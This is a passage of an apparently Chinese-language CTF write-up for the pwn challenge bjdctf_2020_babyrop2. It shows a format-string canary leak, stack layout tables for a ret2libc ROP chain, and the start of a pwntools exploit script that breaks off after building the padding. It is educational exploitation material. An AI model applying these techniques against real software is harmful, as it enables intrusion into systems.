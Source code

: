      ```shell
     pwndbg> stack 0x20
     00:0000│ rsp 0x7ffd2b15b170 ◂— 0x7024372541 /* 'A%7$p' */
     01:0008│     0x7ffd2b15b178 ◂— 0x6b3d526f8ba61400
     02:0010│ rbp 0x7ffd2b15b180 —▸ 0x7ffd2b15b1a0 ◂— 0x1
     03:0018│     0x7ffd2b15b188 —▸ 0x400905 (main+43) ◂— mov eax, 0
     ```

2. 获得了`canary`之后就是常规的`64`位泄露`libc`,但是在填充栈的时候有一些不同,我们要注意覆盖`canary`的位置

   - ![image-20240101132652204](../assets/img/old_imgs/image-20240101132652204.png)

     > 通过ida我们看到`buf`的栈空间为`0x18`

     栈填充部分如下

     | rbp  |         |        |       |
     | :--: | :-----: | :----: | :---: |
     |      | padding |        | 0x18  |
     |      |         | canary | value |
     |      |         | leave  |  0x8  |
     |      |         |  ret   |       |

     泄露`libc`完整`payload`

     | rbp  |           |        |       |            |
     | :--: | :-------: | :----: | :---: | :--------: |
     |      |  padding  |        | 0x18  |            |
     |      |           | canary | value |            |
     |      |           | leave  |  0x8  |            |
     |      |  pop_rdi  |  ret   |       | ROPgadgets |
     |      | puts_got  |  ret   |       |            |
     |      | puts_plt  |  ret   |       |            |
     |      | vuln_addr |  ret   |       |            |

3. 得到`libc`构造`payload`得到`shell`

```python
#远程脚本
from pwn import *
from LibcSearcher import LibcSearcher
context.log_level = 'debug'
io = remote('node5.buuoj.cn',26462)
elf = ELF('./bjdctf_2020_babyrop2')

io.sendlineafter(b"I'll give u some gift to help u!\n",b'%7$p')
io.recvuntil(b'0x')
canary = int(io.recvline(16),16)    #recv(),15或者16都可以,后续函数会自动去除的

print('canary->',hex(canary))
padding = b'A'*0x18+p64(canary)+b'A'*8
```